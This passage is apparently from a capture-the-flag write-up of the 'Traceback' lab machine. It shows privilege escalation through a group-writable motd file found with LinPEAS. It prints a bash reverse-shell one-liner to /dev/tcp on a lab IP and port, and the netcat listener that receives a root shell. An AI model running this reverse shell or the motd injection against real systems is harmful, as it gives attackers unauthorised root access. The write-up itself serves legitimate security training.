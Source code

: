 ```bash
bash -c "bash -i >& /dev/tcp/10.10.14.117/6002 0>&1"
```

We start a netcat listener on our box listening on port 6002, write the motd file and then ssh as sysadmin. You will know that the process has worked because the SSH login will hang when it executes the reverse shell. Our listener should then drop into a shell as root:

```bash
┌─[rin@parrot]─[~/boxes/Traceback]
└──╼ $nc -lvnp 6002
listening on [any] 6002 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.1.189] 59966
bash: cannot set terminal process group (50728): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# whoami
whoami
root
```

In the enumeration process, we went through the steps of looking for information and then looking for vulnerabilities that we could exploit on the system, in this case a misconfiguration left by the "hackers" who had taken over the machine. LinPEAS made that process more efficient, highlighting the vulnerability of the group writeable motd files.

We will look at another example where using LinPEAS highlights potential credentials in a configuration file to get a user with different privileges. Having got this user, we can do some manual enumeration to find a path to escalate privileges to get root.




